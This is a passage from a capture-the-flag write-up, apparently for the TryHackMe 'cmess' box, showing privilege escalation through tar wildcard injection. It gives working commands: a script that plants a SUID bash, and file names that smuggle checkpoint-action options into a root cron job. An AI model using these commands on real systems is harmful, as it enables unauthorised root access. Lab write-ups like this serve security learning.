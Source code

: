 Every two minutes, the command `cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *` gets executed by root.

The bad thing about this command is that it uses `tar` with a wildcard `*`, and this can be leveraged to get root.

I faced the same senario in a room called [skynet](https://tryhackme.com/room/skynet), you can check my [writeup](https://nasrallahbaadi.github.io/posts/THM-Skynet/#privilege-escalation) where we exploited tar to get root.

First, let's create a shell script that adds suid bit to bash so that we can execute as root and get a shell.

```bash
andre@cmess:~/backup$ echo 'cp /bin/bash /tmp/bash && chmod +s /tmp/bash' > shell.sh
```

Next we need to create the two following files:

```bash
andre@cmess:~/backup$ echo "" > "--checkpoint-action=exec=sh shell.sh"
andre@cmess:~/backup$ echo "" > --checkpoint=1
```

Now we wait a bit, and check the /tmp directory to find the bash binary with suid bit. We enter `/tmp/bash -p` to get a root shell.

![](10.png)


---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

# References

